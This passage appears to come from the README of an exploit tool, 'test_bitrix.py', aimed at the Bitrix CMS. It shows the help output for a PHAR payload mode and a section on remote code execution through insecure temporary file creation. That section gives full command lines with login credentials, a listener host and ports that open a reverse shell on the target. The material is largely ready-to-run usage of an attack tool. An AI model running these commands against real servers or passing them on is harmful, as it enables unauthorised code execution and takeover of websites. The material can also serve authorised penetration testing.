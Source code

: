 Display help for mode
```sh
python3 test_bitrix.py vote_phar -h
```

```console
usage: python3 test_bitrix.py vote_phar [-h] -p payload

options:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        Path to payload file

```

### Running RCE via Insecure Temporary File Creation

It works only with Apache. The .htaccess file is required to be present in the same directory as the Python3 exploit code.
Get user credentials regardless of privileges. Point out the login page in the parameter `-r`, port of the host that listens for web connection `--lport1`, port of the host that listens for reverse shell connection `--lport2`
```sh
python3 test_bitrix.py -t https://example.com tmp_file_create -r bitrix/components/bitrix/map.yandex.search/settings/settings.php?login=yes -l user -p 123456 --lhost 192.168.1.11 --lport1 8001 --lport2 9001
```
Create file cached-creds.txt in the same directory as the python script code, and write down PHPSESSID:sessid value, then run the command below
```sh
python3 test_bitrix.py -t https://example.com tmp_file_create --lhost 192.168.1.11 --lport1 8001 --lport2 9001
```

Display help for mode
```sh
python3 test_bitrix.py tmp_file_create -h
```

```console
usage: python3 test_bitrix.py tmp_file_create [-h] [-r PATH_LOGIN] [-l LOGIN] [-p PASSWORD] --lhost LHOST --lport1 LPORT1 --lport2 LPORT2 [-d DELAY_SECONDS] [-n N_REPS] [-i SITE_ID]

options:
  -h, --help            show this help message and exit
  -r PATH_LOGIN, --path_login PATH_LOGIN
                        Url path for login
  -l LOGIN, --login LOGIN
                        User login
  -p PASSWORD, --password PASSWORD
                        User password
  --lhost LHOST         IP address for reverse connection
  --lport1 LPORT1       Port of the host that listens for web connection
  --lport2 LPORT2       Port of the host that listens for reverse shell connection
  -d DELAY_SECONDS, --delay_seconds DELAY_SECONDS
                        Delay the deletion of uploaded files
  -n N_REPS, --n_reps N_REPS
                        Number of replicated files
  -i SITE_ID, --site_id SITE_ID
                        Site id
```

